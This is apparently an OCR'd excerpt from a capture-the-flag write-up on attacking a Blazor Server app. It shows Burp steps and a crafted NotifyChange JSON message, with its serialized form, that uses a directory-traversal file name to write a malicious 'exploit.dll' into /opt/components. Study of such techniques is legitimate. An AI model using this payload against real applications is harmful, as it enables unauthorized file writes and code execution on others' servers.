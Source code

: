 ## right click and select extensions then Blazor Traffic Processor and Send to BTP  
  
## now deserialize the input, modify the path to this, make sure the option is from Blazor -> Json in the top bar  
  
[{  
  
  "Target": "BeginInvokeDotNetFromJS",  
  
  "Headers": 0,  
  
  "Arguments": [  
  
      "2",  
  
      "null",  
  
      "NotifyChange",  
  
      2,  
  
      [[{  
  
        "blob": {},  
  
        "size": 4096,  
  
        "name": "../../../../../../../../../../../../../../../../../opt/components/exploit.dll",  
  
        "id": 1,  
  
        "lastModified": "2024-08-18T01:48:45.336Z",  
  
        "contentType": "application/x-msdos-program"  
  
      }]]  
  
  ],  
  
  "MessageType": 1  
  
}]  
  
  
  
## copy the json and edit it from JSON->Blazor  
  
## and click serialize, copy the output to the intercept request overwriting the previous one  
  
ûÀ·BeginInvokeDotNetFromJS¡2À¬NotifyChangeÙË[[{"blob":{},"size":4096,"name":"../../../../../../../../../../../../../../../../../opt/components/exploit.dll","id":1,"lastModified":"2024-08-18T01:48:45.336Z","contentType":"application/x-msdos-program"}]]  
  
  
  
## generated exploit.dll can be found at the bottom of this writeup  
  